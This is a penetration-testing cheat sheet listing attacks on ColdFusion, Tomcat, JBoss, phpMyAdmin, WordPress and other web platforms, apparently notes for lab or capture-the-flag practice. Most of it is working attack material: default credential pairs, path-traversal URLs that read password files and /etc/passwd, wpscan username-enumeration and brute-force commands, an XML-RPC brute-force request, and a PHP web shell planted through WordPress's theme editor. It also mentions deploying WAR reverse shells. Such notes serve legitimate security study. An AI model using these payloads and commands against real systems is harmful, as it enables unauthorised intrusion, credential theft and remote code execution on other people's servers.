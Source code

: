 # CMS Specific Vulnerabilities and Exploits    
### Default Creds 

    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
    
### Adobe Coldfusion 
https://nets.ec/Coldfusion_hacking   
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

    Metasploit - Determine version
    /CFIDE/adminapi/base.cfc?wsdl
    Version 8 Vulnerabilities
    Fckeditor: use exploit/windows/http/coldfusion_fckeditor

LFI 

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

### Elastix 

    default login are admin:admin at /vtigercrm/
    able to upload shell in profile-photo
    Examine configuration files - Generic
    Examine httpd.conf/ windows config files 
    
### Drupal
[droopsescan](https://github.com/droope/droopescan) 

    /CHANGELOG.txt to find version

### JBoss

    JMX Console http://IP:8080/jmxconcole/
    WAR File payload   

### Jenkins
[pwn jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins)   

### Joomla 

    admin page: /administrator
    other pages: configuration.php, diagnostics.php, joomla.inc.php, config.inc.php   
    
### PHPMyAdmin

    Default password root:root, pma:
    Brute force with Burp or phpmyadmin python script

### Tomcat 

    Usually port 8080, /manager
    default creds tomcat:s3cret
    generate WAR reverse shell payload, upload and deploy 
    
### Wordpress  
https://github.com/wpscanteam/wpscan/wiki/WordPress-Plugin-Security-Testing-Cheat-Sheet    
https://raphaelrichard-sec.fr/learning-notes/hacking-wordpress     
[Hacking Wordpress Notes](https://github.com/cyberteach360/Hacking-Wordpress)    
.wp-config.php.swp exploit - https://ritcsec.wordpress.com/2020/04/28/how-i-accidentally-discovered-cve-2017-17087-2/         

    admin and login pages:  /wp-admin    /wp-login     /wp-admin/login.php   /login.php    /wp-login.php     
    config files:  /setup-config.php   /wp-config.php    
    curl http://10.10.10.10/wordpress/ | grep 'content="WordPress'  #get WordPress version   
    curl -s -X GET http://10.10.10.10/wordpress | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2    #get plugins     
    curl -s -X GET http://10.10.10.10 | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2   #get themes    
    curl http://10.10.10.10/wp-json/wp/v2/users | jq    #user enum   
wpscan 
Register for a free account and get an API token from https://wpscan.com/    

    wpscan --url <domain>
    wpscan --url <domain> --enumerate ap at (All Plugins, All Themes)
    wpscan --url <domain> --enumerate u (Usernames)       #or zoom.py 
    wpscan --url <domain> --enumerate v      
    wpscan --url http://10.10.10.10/wordpress --enumerate --api-token <API_TOKEN>
    wpscan -u 192.168.0.15 --enumerate -t --enumerate u --enumerate p      

Bruteforce login page with wpscan   
Xmlrpc method is usually faster (if enabled), but is not as reliable.            

    wpscan --url ipaddress --usernames name_list --passwords wordlist    
    wpscan --password-attack xmlrpc -t 20 -U admin, username -P passwords.txt --url http://10.10.10.10           


Xmlrpc.php - if enabled you may be able to use this to brute force creds. Send the below request to check    
If wp.getUserBlogs, wp.getCategories or metaWeblog.getUsersBlogs are available - can brute force    
Ref: https://gist.github.com/georgestephanis/5681982    
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 10.10.10.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```   
Vulnerable Mail Masta Plugin Exploit        

    curl http://10.10.10.10/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd     
    /wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd    
    
RCE via Theme Editor using Admin Creds    
Login, select Appearance on the side panel and select Theme Editor to modify the PHP source code. Select an inactive theme to avod breaking the main theme.    
Add to below to theme 404 page then access it (probably) here: http://10.10.10.10/wordpress/wp-content/themes/twentytwenty/404.php     

    <?php system($_GET["cmd"]); ?>
    exploit/unix/webapp/wp_admin_shell_upload    #or use this metasploit exploit   
